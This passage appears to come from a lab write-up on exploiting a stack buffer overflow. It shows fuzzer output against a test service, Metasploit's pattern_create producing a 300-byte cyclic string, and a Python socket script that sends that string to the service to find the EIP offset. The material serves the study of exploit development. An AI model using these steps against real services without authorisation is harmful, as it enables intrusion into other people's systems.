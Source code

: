 ```
vladislav@Mac Desktop % python3 fuzzer.py
Fuzzing with 100 bytes
Fuzzing with 200 bytes
Could not connect to 10.211.55.3:31337
```

Now we know that the amount of bytes somewhere between 200 and 300. To get to know exactly how many bytes we need we can use a custom string with unique bytes and which bytes will be in EIP register — that are the end bytes.

Using metasploit framework we can create a unique string:

```
┌──(simpuar㉿kali)-[/usr/share/metasploit-framework/tools/exploit]
└─$ ./pattern_create.rb -l 300            
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```

```python
#!/usr/bin/env python3

import socket, sys

ip = "10.211.55.3"
port = 31337
payload_length = 300
payload = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9"

try:
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((ip, port))
  print("Connected")
except Exception as e:
  print("Error while connecting")
  print(e)
  sys.exit(1)

try:
  print("Sending payload")
  s.send(payload + b'\r\n')
  s.recv(1024)
except Exception as e:
  print("Error while sending data")
  print(e)
  sys.exit(1)

finally:
  print("Closing socket")
  s.close()
```
